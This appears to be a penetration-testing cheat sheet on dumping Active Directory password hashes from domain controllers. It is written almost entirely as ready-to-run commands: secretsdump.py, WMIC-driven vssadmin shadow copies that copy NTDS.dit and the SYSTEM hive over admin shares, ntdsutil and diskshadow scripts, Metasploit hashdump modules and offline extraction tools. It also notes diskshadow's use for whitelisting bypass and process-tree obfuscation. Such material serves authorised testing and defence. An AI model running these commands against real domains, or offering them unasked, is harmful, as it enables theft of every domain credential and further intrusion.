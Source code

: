 # Dump the domain \(Domain Controllers\)

## Remote Access

### Secretsdump.py

```text
secretsdump -just-dc-ntlm -user-status -o [out_file] [Domain]/[User]@[IP] 
```

### WMIC & NTDSutil

from: [https://adsecurity.org/?p=2398](https://adsecurity.org/?p=2398)

```bash
wmic /node:dc /user:PENTESTLAB\David /password:pentestlab123!! process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
wmic /node:dc /user:PENTESTLAB\David /password:pentestlab123!! process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit 2>&1"
wmic /node:dc /user:PENTESTLAB\David /password:pentestlab123!! process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM\ C:\temp\SYSTEM.hive 2>&1"
copy \\10.0.0.1\c$\temp\ntds.dit C:\temp
copy \\10.0.0.1\c$\temp\SYSTEM.hive C:\temp
```

### Metasploit

```bash
auxiliary/admin/smb/psexec_ntdsgrab
windows/gather/credentials/domain_hashdump
```

## Local Access

### NTDSutil

Windows binary allows for export of ntds.dit

```text
ntdsutil "activate instance ntds" "ifm" "create full c:\windows\temp\" "quit" "quit"
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\Pentest' quit quit"
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\Pentest' q q"
```

This can then be extracted using secretsdump.py and registry hashes

```text
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

Alternatively, additional information can be included such as if accounts are active:

```text
secretsdump.py -system ./SYSTEM -ntds ./ntds.dit  -o ntdis-extract -user-status LOCAL
```

Then the output can be filtered to remove both disabled and machine accounts:

```text
grep -i "enabled" <secetsdump.py_output.txt> | grep -v "\\$" | sed -e 's! (status=Enabled)!!' $1 > output-filtered.txt
```

### Diskshadow

From Windows server 2008 and later, can use "diskshadow.exe" to copy NTDS.dit.

Create an instruction set for diskshadow.exe to create a new shadow disk copy of the disk C and expose it as drive M:\

{% code title="shadow.txt" %}
```bash
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% M:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\temp\ntds.dit
delete shadows volume %someAlias%
reset
```
{% endcode %}

Then run:

```bash
mkdir c:\temp
diskshadow.exe /s [Path]\shadow.txt  #Needs to be run from System32
```

Side note: diskshadow can be utilised for whitelisting bypass and process tree obfuscation using the "exec" function.

## Extracting from NTDS.dit

Secretsdump.py as described above, or any of the following tools

```bash
ntdsdecode
NTDSDumpEx.exe -d ntds.dit -s SYSTEM.hive
./adXtract.sh ./ntds.dit ./SYSTEM.hive
```



